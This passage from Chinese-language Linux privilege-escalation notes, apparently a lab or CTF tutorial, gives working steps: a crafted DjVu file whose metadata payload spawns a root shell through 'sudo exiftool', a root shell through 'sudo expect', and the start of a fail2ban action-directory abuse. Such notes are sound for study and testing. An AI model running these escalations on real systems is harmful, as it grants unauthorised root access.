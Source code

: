 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630833367-5a1ce1b3-c09c-4ede-8486-57cd2999931b.png#averageHue=%23262834&clientId=u5826a877-a3c8-4&from=paste&height=46&id=u1b93f422&originHeight=57&originWidth=509&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26617&status=done&style=none&taskId=ue1856cf9-0cdc-4d0d-9708-923e54ec518&title=&width=407.2)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685631716858-512f3839-1e6e-421a-b69b-2cb06654acbf.png#averageHue=%231e2030&clientId=u5826a877-a3c8-4&from=paste&height=189&id=u9d36cedc&originHeight=236&originWidth=1515&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=216765&status=done&style=none&taskId=uc9018015-bac3-4877-9b15-0c173762574&title=&width=1212)

1. 写入 提权 **payload**
```
(metadata "\c${system('/bin/bash')};")
```

2. **bzz** 压缩 成 **bzz** 文件
```bash
bzz payload paylaod.bzz
```
**BZZ** 是一种文件压缩格式，**它提供了高压缩比和快速解压缩速度**。**BZZ压缩算法**是由ProgramBZZ开发的，该算法使用了多种技术，如**自适应字典压缩和预测编码**，以实现更高效的压缩。BZZ文件通常**具有较小的文件大小，可以节省存储空间，并且在解压缩时不会对文件的完整性产生影响。**BZZ格式在特定的 应用场景中可以提供优于其他压缩格式的性能。

3. **djvumake** 生成 **djvu** 文件 - 图像压缩文件
```bash
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
# INFO='1,1' 指定生成 1x1 像素的图像
#  BGjp=/dev/null 设置图片背景 ,这里生成图片无背景
# ANTz=payload.bzz 设置图片的有效载荷，这里是准备好的 shell

# 这个命令的意思是创建一个名为 "exploit.djvu" 的文件
# 该文件可能包含一个非常小的图像（1x1像素），没有背景图像，
# 以及一个指定为 "payload.bzz" 的文件作为有效载荷
```
**DjVuMake**是用于创建和转换**DjVu**文件的工具。**DjVu**是一种图像压缩文件格式，主要用于扫描文档和电子书。与其他图像格式相比，**DjVu **可以提供更高的压缩比，同时保持较好的图像质量。**DjVuMake **工具可以将图像、文本和其他 数据转换为DjVu格式，并且可以进行一些优化和配置，以满足特定需求。**DjVu **文件通常用于在网络上共享**大型扫描文档**，以便更快地加载和浏览。

4. **exiftool** 提权
```
sudo exiftool exploit.djvu	
```
## 情景二十七 - expect
expect 能够模拟用户的键盘输入，可以自动化用户需要交互的过程
用于脚本自动化环境中
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630843493-2e30daf1-1fc0-4677-b02d-7019b9088757.png#averageHue=%23262834&clientId=u5826a877-a3c8-4&from=paste&height=60&id=uf607692e&originHeight=68&originWidth=614&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=38315&status=done&style=none&taskId=u103b7c3b-af0e-4a6d-a393-73c2763977e&title=&width=542.2000122070312)
```bash
sudo /usr/bin/expect -c 'spawn /bin/bash;interact'

# -c 后接 expect 命令字符串
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685635209922-b65b1e0a-df6b-4fe6-9053-5c0c46c5829e.png#averageHue=%23232634&clientId=u5826a877-a3c8-4&from=paste&height=188&id=ub64b1062&originHeight=235&originWidth=705&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=136938&status=done&style=none&taskId=uaa50321a-272c-44f5-b195-b91d99a15e5&title=&width=564)
## 情景二十八 - fail2ban（ssh） - 难点
**Fail2Ban** 是**一个开源的入侵防范软件**，用于在** Linux** 服务器上防止未经授权的访问尝试。它通过监控日志文件，如系统日志和服务日志，动态地阻止显示出可疑或恶意行为的 **IP **地址。例如多次登录失败，或者在规定的时间内超过登录失败次数，IP会被封禁一段时间。可以防止SSH 暴力破解。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630853006-e362db1d-669e-47ff-9d50-f4884b9e7e21.png#averageHue=%232c2e3b&clientId=u5826a877-a3c8-4&from=paste&height=33&id=u337c29ca&originHeight=41&originWidth=566&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24222&status=done&style=none&taskId=uc4eb9960-d76c-479c-a5c7-ea9a86ff8c2&title=&width=452.8)
```bash
find / -name '*fail2ban*' -type d 2> /dev/null
```
与 **fail2ban** 相关的配置目录
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685669898750-1a4df348-62a9-4486-b784-d98ddb1beba3.png#averageHue=%23232534&clientId=ub357bfca-ed9d-4&from=paste&height=218&id=u681e8ad2&originHeight=273&originWidth=853&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=197714&status=done&style=none&taskId=u7ee06063-13b5-45c1-8242-1e9ccb0d49f&title=&width=682.4)
**fail2ban** 的配置文件：**/etc/fail2ban/jail.conf**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685671353144-e106de06-af98-4cf2-a747-25a0a9fa23ea.png#averageHue=%23262939&clientId=ub357bfca-ed9d-4&from=paste&height=228&id=uef3b0e54&originHeight=285&originWidth=318&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=89214&status=done&style=none&taskId=udaa8f8be-a0a8-430f-bb5f-1da4e813001&title=&width=254.4)
**意思是在 10s 内，如果登陆失败 5次，IP 就会被封禁 10s**
利用条件：**/etc/fail2ban/action.d **目录可写
```bash
find /etc -writable -type d 2> /dev/null
```